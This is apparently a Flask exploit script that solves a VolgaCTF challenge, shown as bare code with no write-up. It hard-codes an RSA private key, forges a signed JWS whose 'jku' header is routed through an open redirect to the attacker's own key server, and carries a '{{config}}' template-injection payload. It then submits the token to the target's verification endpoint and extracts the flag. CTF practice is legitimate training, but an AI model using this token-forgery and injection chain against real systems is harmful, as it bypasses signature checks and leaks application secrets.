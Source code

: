 ```python
app.config['all_key'] = '{"d":"AaOagaGz7rNRsEvDwr6NjvY0RwC2zzow7dipjxWXazIncJK6n24SBa4CZ2sr6G2R34M3C9r1D0yC3p7_NtCsKFSzWQrueUCGDyT_gihhYOgqghGKmjWXFNkITUJYQ0LEOEuPlA8WVG-1N8IYERhhoKLaj2r-COYwIdVMZQXeEiinXLfCVJCEtMMVNBMRfyUoY4_siQ6vMQGxJsHn8XOE2zsMnkreG7kPE-c0UrmsdnhmmyNFtegbS8dej4eH0Xy1txg81wTQSyGUru10QaFYVVAOhRFmdVNvSNWW3uL1guAOgLg8Y17FPnz1FiUGhflTeEsWwcKlVWl7QF0Bel-e1Q","dp":"nAk_O5Qi5HQRhgcsNZsGgFeEeErPn5CoXFx1DhANVbQwuNU-19P29wR4gSaDfexoLLaDXrw50g-ufmCLbz9r461LcPdmD6g9okstgPF38heLhjyTuA84xDu16sCX0ltpxWOWzhRkBeI0uhE1mjXtD7Uk9KUX5Y5SQK6MPZmVsoM","dq":"MznXQhv8h65iqwxzfPj3QwK6s9JvIR4IHnur2t3GYaCd-RG5fGSigkClUeG8TUlxViOr5ElbGsATWOzqAlr_CwTPCwEg9lcL5AKEHOy94k5CfAWMr1csa6Pp6bQJkveDf_c87s2Z1zYn6cJmJZiEJADocRyyUJ_mnh6wpvS7tgs","e":"AQAB","kty":"RSA","n":"oBbyWuGxj4wqlVjqcpNh3ZKYTjVXWINNdn8zaJgJdPa0Wt286cE4wExWAV03Kuma7bh8yK5SgY2bte8mdjpcte5T1iOtqWTXDP5XbXQvzLPas1VVvzcMwdsMs4-mkuV6HCYaj7Sbent7Bvx_4aY8qxrIBSuqf4NBP38iE_Bkuzo_OeGtsz0f5KECUPDV-Tum1KDuiwCDt6Jmef_xAWUmAqJv9nK0GLnNceIDXmw775Gi26KxDl7g2ak22pNCEFBKbZqQak4cTeZJfNR-oUZqPXFGO9i2yZJ_G7iN-1JxSPTyqyKnG5Z16d7l1Q_TFP1btPMFu9qS_bdbnkcMxURoBQ","p":"0-jzleXm-XbQe_gjrKqFsQUypSjtVX2NJ1ckF5op0qE1XiLETHg0C-woMuEymyW-vqRAbgA5yx4pVhlmJTPkv8TVsc9OYsz1H1cswiI-I73uLJ1wgUk_4mapa7K10Mrsw2X9AZpmiP7ntc4OwVdJ7BjUoY587IbZrV0yVCKgeYM","q":"wWXeDP796mxedqUActwBTCQCR3uNjbmOINMZY2CR0DuxCa9AX8V3VZEQVUj1Q6R8o4ixrQywQy1R902Kc9dCQqBkwF4WfybzhkfwiVcf8Yy3bqZzEoGCEbs2KVnYX7J3EBIfgEQVXb_G5ZeOvWzgSTi11e1_kdcUXdANiGtISdc","qi":"MNo8DyDds5N6gw6gmA17Iu0scH5i2n30oS0nDxFp0tKqfd5WAjF7J3P_uESwzW8AvncAm7HtDBd-KEHipcOcm7rPEdfBKKhyo3Q25chBCvRPvVcslmML30p3p0_F26yd5ThHWoo3UmHNoPLiMNZN3oRsCe1w2jity3YVvZDhu48"}'

def generate_key():
   key = jwk.JWK.generate(kty='RSA', size=2048)
   print(key.export_public())
   print(key.export())

@app.route('/') #to get evil jws token
def index():
   jku = 'http://localhost:5001/vuln/redirect?endpoint=http://localhost:5002/hack' #localhost:5002 its own server, 5001 server with vuln open redirect
   payload = '{{config}}'
   key = jws.JWK(**json.loads(app.config['all_key']))
   jwstoken = jws.JWS(payload.encode('utf-8'))
   jwstoken.add_signature(key=key,alg='RS256',protected=None,header=json_encode({"kid": key.thumbprint(), 'jku':jku, "alg":"RS256"}))
   sig = jwstoken.serialize()
   return sig

@app.route('/hack') #to redirect, return evil JWK
def hack(): #need send as file
   with open('tmp.file', 'w') as file_write:
       file_write.write(jwk.JWK(**json.loads(app.config['all_key'])).export_public())
   uploads = os.path.join(os.path.abspath(os.path.dirname(__file__)))
   return send_from_directory(directory='.',filename='tmp.file')

@app.route('/get_flag')
def get_flag():
   payload = index()
   answ = requests.get('http://localhost:5000/jws_check',params={'payloads':payload}).text
   flag = answ
   flag = re.findall('VolgaCTF{.+?}', answ)[-1]
   print(flag)
   return flag
   
if __name__ == '__main__':
   app.run(port=5002, host='0.0.0.0')
```
